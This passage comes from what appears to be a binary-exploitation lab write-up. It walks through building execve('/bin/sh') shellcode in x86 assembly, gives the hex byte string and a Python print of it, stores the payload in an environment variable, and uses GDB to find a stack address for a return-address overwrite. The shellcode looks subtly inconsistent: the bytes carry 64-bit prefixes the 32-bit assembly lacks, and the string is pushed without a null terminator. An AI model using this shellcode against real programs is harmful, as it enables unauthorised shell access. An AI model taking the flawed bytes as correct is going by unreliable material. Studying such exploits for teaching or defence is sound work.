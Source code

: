 > https://masterccc.github.io/memo/shellcode/

The code we are trying to run is 
```c
#include <unistd.h>

int main(void){
  execve("/bin/sh", NULL, NULL);  
}
```

Translated to assembly, it looks like 
```
section .text
global _start

_start:
   ; clear the registers
   xor eax, eax
   xor ebx, ebx
   xor ecx, ecx
   xor edx, edx

   ; push the string "/bin/sh" onto the stack
   push 0x68732f6e
   push 0x69622f2f
   mov ebx, esp

   ; set up the arguments for the execve syscall
   push eax
   push ebx
   push eax

   ; make the execve syscall
   mov al, 0x0b
   int 0x80

```

When assembled using [this site](https://defuse.ca/online-x86-assembler.htm#disassembly), the corresponsing instructions will be `"\x48\x31\xC0\x48\x31\xDB\x48\x31\xC9\x48\x31\xD2\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\x50\x53\x50\xB0\x0B\xCD\x80"
`. To output the byte literal, we can do so in python 
`print("\x48\x31\xC0\x48\x31\xDB\x48\x31\xC9\x48\x31\xD2\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\x50\x53\x50\xB0\x0B\xCD\x80")`

With that information, we can export the shellcode inside an environment variable 

![image](https://hackmd.io/_uploads/r10F9PV4p.png)

### Step 5 - Find a way to deliver the payload via argv of program
Now when we go back to GDB, we are able to see our environment variable in the stack and they are located waay below the EBP. I was able to inspect them using `x/50s $esp+450` which prints stack content and I see the env var in address `0xbffff90c` and the shellcode should begin at address `0xBFFFF916`. Reverse it for little endianess and make it hex string literal, we get `\x16\xf9\xff\xbf"`

